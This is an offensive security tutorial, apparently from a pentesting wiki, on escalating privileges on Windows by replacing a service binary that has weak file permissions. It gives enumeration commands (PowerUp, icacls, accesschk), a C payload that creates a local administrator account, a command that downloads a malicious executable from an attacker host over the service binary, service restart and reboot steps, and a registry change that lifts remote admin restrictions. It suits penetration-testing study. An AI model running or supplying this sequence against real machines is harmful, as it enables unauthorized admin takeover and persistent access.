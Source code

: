 ```yaml
---
authors: ShutdownRepo, Anh4ckin3
---
```


# 🛠️ Weak service permissions

## Theory

File permissions in Windows control who can access, modify, or execute files on the system. If these permissions are misconfigured, unauthorized users could potentially alter or replace critical files, leading to security vulnerabilities such as unauthorized access.

Here's a quick summary of Windows file permissions based on the provided table:

    F (Full access): Grants complete control over the file, including modifying and deleting it.
    M (Modify access): Allows editing and deleting the file, but not changing permissions.
    RX (Read and execute access): Permits viewing the file and executing it if it's an executable.
    R (Read-only access): Only allows viewing the file without making changes.
    W (Write-only access): Permits writing to the file but not reading or executing it.

## Pratice

### Insecure permissions on service executable 

This type of abuse can occur when the binary of a Windows service is misconfigured, meaning that the permissions for this binary allow, for example, a local user without special privileges to modify it or even replace it with a malicious one, the Attacker can obtain the privileges of the service account in general a high privileges account.

For the enumeration can be done with Powershell, first using native Powershell commands (Living off the Land) But also with [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). The main difference between the two is on the result PowerUp is able to tell you if a service is vulnerable or not while PowerShell just lists the Binary Services. In this example the **aniService** service is misconfigured and vulnerable to this attack.

```powershell
# USING POWERSHELL
> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# USING POWERUP
> Invoke-AllChecks
[*] Checking service executable and argument permissions...


ServiceName    : aniService
Path           : C:\Program Files\AniService\ani.exe
ModifiableFile : C:\Program Files\AniService\ani.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'aniService'
```

If you have identified your vulnerable binary with a tool like PowerUp or even Winpeas, you can check the permissions of this binary with **icacls.exe**. The most interesting permissions are (F) and (M) if they are related to a group such as `Everyone:` or a local user for exemple. 
```powershell
> icacls "C:\Program Files\AniService\ani.exe"
C:\Program Files\AniService\ani.exe
                                    AUTORITE NT\System:(F)
                                    BUILTIN\Administrators:(F)
                                    Everyone:(F)
                                    BUILTIN\Users:(RX)
```

In the current practical case the executable permission (F) on the group "Everyone", but if the permission was set in (M) it would also have been possible to abuse. Thanks to this bad configuration the attacker can simply replace the binary with another malicious one. it is possible to use PowerUp for automated task.
```powershell
> Install-ServiceBinary -ServiceName 'aniService' -User vador -P "D4rkIsD@rk"
```

Once the command is launched it will just need to **restart the service** to be sure that the abuse is well worked. 

The second method consists of creating yourself your malicious binary that can have advantages including the bypass of the AV detection. Here is a simple C code that will execute a system windows command (You can of course replace the system command with another.).
```C
#include <stdlib.h>
int main ()
{
int i;
    i = system("net user vador D4rkIsD@rk /add && timeout /t 2 && net localgroup Administrators vador /add");
return 0;
}

```

To compile Windows Executable it is possible to use `i686-w64-mingw32-gcc`.
```bash
> i686-w64-mingw32-gcc <CODE.c> -lws2_32 -o <FILE.exe>
```

Thanks to the wrong permission the attacker can replace the old executable by renominating it for example. Then it will be able to add the new malicious file with a name identical to the original one.
```powershell
> move ani.exe ani.exe.bak

# DOWNLOAD THE MALICIOUS EXECUTABLE
> iwr http://<ATTACKER_IP>/malicious.exe -Outfile "C:\Program Files\AniService\ani.exe"
```
Once the binary is replaced you have to restart the service, to check if this is possible a tool of the suite sysinternal can help, [accesschk.exe](https://download.sysinternals.com/files/AccessChk.zip) is a tool that allows adminsys to quickly check what type of access users or specific groups have to resources, including files, directories, registry keys, global objects and Windows services.
```powershell
> ./accesschk64.exe /accepteula -ucqv <SERVICE_NAME>

Copyright (C) 2006-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

aniService
  Medium Mandatory Level (Default) [No-Write-Up]
  R  DESKTOP-5VHCKF3\admin
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
```
The permissions that manage the start are **SERVICE_START** and **SERVICE_STOP** if they are present on your user or on a group that controls you then you can restart the service.
```powershell
# STOP SERVICE
> net stop <SERVICE_NAME>

# START SERVICE
> net start <SERVICE_NAME>
```
There is an alternative if ever the Startup permissions are not present, with the sc.exe tool you can look at the boot method used by the service. If it is on `AUTO_START`, this means that the service starts at windows boot.
```powershell
> sc.exe qc <SERVICE_NAME>
[SC] QueryServiceConfig réussite(s)

SERVICE_NAME: aniService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\AniService\ani.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Anakin Skywalker Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
There is a Windows privilege called **SeShutdownPrivilege**, which allows you to reboot a Windows system. With this privilege, you can indirectly restart the service without having the direct permissions to restart it.
```powershell
> shutdown /r /t 0
```
Once the service is rebooted your payload should be run.

A small nuance when adding a local user: there is a registry key named **LocalAccountTokenFilterPolicy** that, when enabled, prevents users in the local administrators groupexcept for those with a RID of 500 (the built-in Administrator account) from obtaining full administrator rights during remote connections, such as to administrative shares like C$. To disable this restriction. The value of the key needs to be changed.
```powershell
> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /f /v LocalAccountTokenFilterPolicy /t Reg_DWORD /d 1
```

#### Ressources 
[https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy](https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy)

[https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/](https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/)
